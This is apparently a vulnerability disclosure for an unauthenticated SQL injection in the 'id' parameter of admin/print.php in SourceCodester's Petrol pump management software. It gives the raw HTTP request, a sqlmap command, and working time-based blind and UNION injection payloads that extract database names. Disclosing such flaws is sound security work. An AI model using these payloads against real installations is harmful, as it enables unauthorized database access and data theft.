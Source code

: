 ### Source code

[Petrol pump management software free download | SourceCodester](https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html)



### Description

SQL Injection vulnerability in sourcecodester Petrol pump management software v1.0, A vulnerability has been found that is rated as high risk, affecting some unknown functionality of the admin\print.php file, Using parameter id to construct malicious SQL statements to obtain sensitive information, thus causing harm



### Analysis vulnerability

`admin\print.php`

![image-20241023155634643](assets/image-20241023155634643.png)

Here, the user input `$_POST['id']` is concatenated into the SQL query statement, which is obviously susceptible to SQL injection attacks



### Recurrent vulnerability

![image-20241023160251059](assets/image-20241023160251059.png)

```
POST /admin/print.php HTTP/1.1
Host: 10.151.167.168:6677
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

id=1*
```

Save the packet and use sqlmap attack

```
payload：
python3 sqlmap.py --random-agent --batch -r data.txt --risk 3 --dbs
```

![image-20241023160627277](assets/image-20241023160627277.png)

```
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 8405 FROM (SELECT(SLEEP(5)))RBvx) AND 'WWQR'='WWQR

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171706271,0x744d4a644a516944425443614f4c594948754b4a746356615251435951444f72597a74534274424a,0x71706a7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

Look at the packet, I did not add a cookie value, indicating that no authentication does not need to log in to remotely launch attacks

You can see that this payload utilizes two injection methods, time-based blind and UNION query, and successfully injects the database name